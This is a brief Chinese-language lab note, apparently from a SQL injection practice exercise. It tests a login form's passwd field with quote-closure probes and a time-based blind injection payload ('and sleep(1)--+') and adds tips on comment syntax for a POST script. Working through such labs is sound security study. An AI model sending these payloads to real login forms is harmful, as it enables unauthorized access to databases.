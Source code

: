 # 确认闭合状态
输入：passwd=Dumb&submit=Submit&uname=Dumb  
正常，无回显

输入：passwd=Dumb'&submit=Submit&uname=Dumb  
错误

输入：passwd=Dumb"&submit=Submit&uname=Dumb  
还是错误

输入：passwd=Dumb' --+&submit=Submit&uname=Dumb  
正确了，说明本关是单引号闭合，而且没有报错信息，那就考虑盲注了

测试:passwd=Dumb' and sleep(1)--+&submit=Submit&uname=Dumb  
页面响应了一会，说明结论正确

这时候就可以写脚本了，需要学一下requests库如何传递post数据


参考脚本：第9关

# post脚本问题
在使用脚本时注释符不能使用--+，而需改成#或者-- (有个空格)  
详细请看记录中第11条